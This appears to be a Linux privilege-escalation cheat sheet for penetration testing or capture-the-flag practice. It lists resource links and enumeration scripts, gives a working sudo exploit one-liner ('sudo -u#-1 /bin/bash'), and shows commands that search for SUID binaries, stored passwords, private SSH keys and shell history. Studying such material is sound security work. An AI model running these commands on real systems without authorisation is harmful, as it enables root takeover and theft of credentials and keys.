 ### Valuable links and sources
```
https://book.hacktricks.xyz/
https://book.hacktricks.xyz/linux-unix/privilege-escalation
https://gtfobins.github.io/
https://www.revshells.com/
https://ippsec.rocks/?#
https://github.com/Snoopy-Sec/Localroot-ALL-CVE
https://guif.re/linuxeop#Exploits%20worth%20running
```

### Usefull Scripts
```
linpeas.sh  #https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
les.sh      #https://github.com/mzet-/linux-exploit-suggester
LinEnum.sh  #https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
pspy        #https://github.com/DominicBreuker/pspy
```

### Overall System Info & Architecture
```
uname -a
cat /etc/issue
```

### Check for your sudo privileges and the groups you belong to
```
sudo -l
id
```
### Check if your sudo version is vulnerable
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]" #check
sudo -u#-1 /bin/bash                                                                         #exploit 
```

### Always check for hidden files
```
ls -la
```

### Find SUID files
```
find / -perm -u=s -type f 2>/dev/null
```

### Look for stored credentials & private keys
```
locate 'password' | more #will look for files named "password"
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find / -name id_rsa 2> /dev/null
```

### Find processes running with root privileges
```
ps aux
ps aux |grep root
```

### Check the history of previously used commands
```
history
cat ~/.zsh_history
cat ~/.bash_history
```


